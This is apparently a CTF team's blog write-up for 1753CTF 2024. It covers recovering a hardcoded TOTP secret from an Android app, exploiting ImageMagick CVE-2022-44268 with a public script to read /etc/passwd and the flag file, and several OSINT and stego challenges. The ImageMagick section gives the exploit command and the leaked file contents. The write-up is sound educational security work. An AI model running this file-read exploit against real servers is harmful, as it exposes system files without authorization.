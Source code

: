 ```yaml
---
layout: post
title: "1753CTF 2024 - Wojownicy z Piwnicy - 10th place"
date: Fri, 15 March 2024, 22:00 UTC
---
```


Hosted by: [1753c](https://1753c.io/) 

Duration:  Fri, 15 March 2024, 21:00 UTC — Sat, 16 March 2024, 21:00 UTC 

CTFtime: [1753CTF 2024](https://ctftime.org/event/2234/)

Team: [Wojownicy z Piwnicy](https://ctftime.org/team/155060)

Result: 10th place


Challenges:
1. [Yesterday's News](#yesterdays-news) 
2. [Kind of Magic](#kind-of-magic)
3. [Text Polyfill](#text-polyfill)
4. [Fixed Mistake](#fixed-mistake)
5. [Questions](#questions)
6. [The Constant](#the-constant)

---

## Yesterday's News
In the challenge we were given a 'creds' file and an android application 'totp.apk'. In the 'creds' file we could find an URL with login & password. After visiting the site we were missing a 'MFA Code' box which was required to login. Installing the app in the emulator did not give us the correct MFA code so we began reverse engineering the app. We found two main functions that were responsible for generating the TOTP token. 
```java
public String generateTOTP() {
	return TOTPGenerator.generateTOTP("IMSEXYANDIKNOWIT", Clock.offset(Clock.systemUTC(), Duration.ofDays(-1)), 6);
}
```
```java
public class TOTPGenerator {
    private static final int DEFAULT_TIME_STEP = 30;

    public static String generateTOTP(String secretKey, Clock clock, int digits) {
        int i = digits;
        Instant instant = clock.instant();
        long clockValue = instant.getEpochSecond();
        long T = clockValue / 30;
        byte[] decodedKey = new Base32().decode(secretKey);
        byte[] time = ByteBuffer.allocate(8).putLong(T).array();
        SecretKeySpec signKey = new SecretKeySpec(decodedKey, "HmacSHA1");
        try {
            Mac mac = Mac.getInstance("HmacSHA1");
            mac.init(signKey);
            byte[] hash = mac.doFinal(time);
            int offset = hash[hash.length - 1] & 15;
            int binary = ((hash[offset + 2] & 255) << 8) | ((hash[offset] & Byte.MAX_VALUE) << 24) | ((hash[offset + 1] & 255) << 16) | (hash[offset + 3] & 255);
            Instant instant2 = instant;
            long j = clockValue;
            long j2 = T;
            try {
                return new Formatter().format("%0" + i + "d", new Object[]{Integer.valueOf(binary % ((int) Math.pow(10.0d, (double) i)))}).toString();
            } catch (InvalidKeyException | NoSuchAlgorithmException e) {
                e = e;
                e.printStackTrace();
                return null;
            }
        } catch (InvalidKeyException | NoSuchAlgorithmException e2) {
            e = e2;
            Instant instant3 = instant;
            long j3 = clockValue;
            long j4 = T;
            e.printStackTrace();
            return null;
        }
    }
}
```

We found the secret key used for the generation - 'IMSEXYANDIKNOWIT'. We can also see that the clock responsible for generating the TOTP was offset by a day. It explains why the tokens did not work straight out from the app - they were a day old. With that knowledge is easy to create our own TOTP generator in python, to generate current tokens. 

```python
import pyotp
import time

secret_key = "IMSEXYANDIKNOWIT"
totp = pyotp.TOTP(secret_key)

current_time = int(time.time())
totp_value = totp.at(current_time)

print("Current TOTP:", totp_value)
```

With credentials provided in the 'creds' file and MFA token recived from our program we can login into the admin web-panel and get the flag.
```shell
Flag: 1753c{welcome_to_the_world_of_yesterday}
```

## Kind of Magic
We were given a link and the source code of a simple website with a functionality of making thumbnails of the uploaded pictures. You just uploaded a picture and it came out cropped and drastically reduced in size. 

After inspecting the docker file and dependencies we noticed that the service was using an outdated version of ImageMagick library. Quick google of the 'imagemagick-7.1.0.49' provides us with the [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268) which confirm ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary. file (if the magick binary has permissions to read it). We found the [repository](https://github.com/kljunowsky/CVE-2022-44268) containing a python script that can create images embedded with the exploit. For testing we decided to read the '/etc/passwd' file. 

 
```bash
python3 CVE-2022-44268.py --image example.png --file-to-read /etc/passwd --output poisoned.png
```
We then uploaded the file to the website, and downloaded its modified version. Using 'identify -verbose resized.png' gave us a bunch of hex bytes which we then converted to ASCII. 
```bash1
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-coredump:x:980:980:systemd Core Dumper:/:/usr/bin/nologin
systemd-network:x:979:979:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:978:978:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-journal-remote:x:977:977:systemd Journal Remote:/:/usr/bin/nologin
systemd-resolve:x:976:976:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:975:975:systemd Time Synchronization:/:/usr/bin/nologin
tss:x:974:974:tss user for tpm2:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
```
With that we confirmed that the target is vulnerable. Fortunately from one of the previous challenges we knew that the flag can be located by the path '/flag'. We hoped it's the same in this challenge and proceeded to prepare the embedded image. After downloading the image and again inspecting it with identify package we decoded the hex bytes into string with the command provided bellow and received the flag. 
```shell
❯ echo '31373533637b74686572655f69735f6d616769635f696e5f74
	↪68655f6169725f6974735f63616c6c65645f4356455f323032325f34343236387d0a' | xxd -r -p
1753c{there_is_magic_in_the_air_its_called_CVE_2022_44268}
```

## Text Polyfill



## Fixed Mistake 
This OSINT challenge required us to find an article that has/had a hidden flag. The name hinted that the mistake has already been fixed so we used the Wayback Machine to inspect every article about this CTF event. Finally one article [So, You Want to Be a Hacker?](https://web.archive.org/web/20240000000000*/https://hackernoon.com/so-you-want-to-be-a-hacker) contained a flag if we used a snapshot from March, 2nd. 
```shell
Flag: 1753c{s0m3_r4nd0m_t3xt}
```


## Questions
We were given a link to a telegram bot that gave us single bits of the flag. The solve was just to power through and ask the bot 271 times for the bits, which we kept in an excel spreadsheet. It wasn't the most interesting challenge XD
![Telegram Conversation](../images/ctf/1753c/telegram.jpg)


```shell
001100010011011100110101001100110110001101111011011001000
↪01100110110011001101001011011100110100101110100011001010
↪01100010111100101011111011101110011000001110010011101000
↪11010000101111101110100011010000110010101011111001100110
↪11001100110011000110000011100100111010001111101 
---------------------------------------------------------
Flag: 1753c{d3finite1y_w0rth_the_3ff0rt}
```

## The Constant 
This challenge was categorized as STEGANO, however to solve it you just had to watch the provided video, and look for hidden, dim text on the screen. Then we had to combine it to get the flag. 
```shell
Flag: 1753c{wehavetogobacktotheisland}
```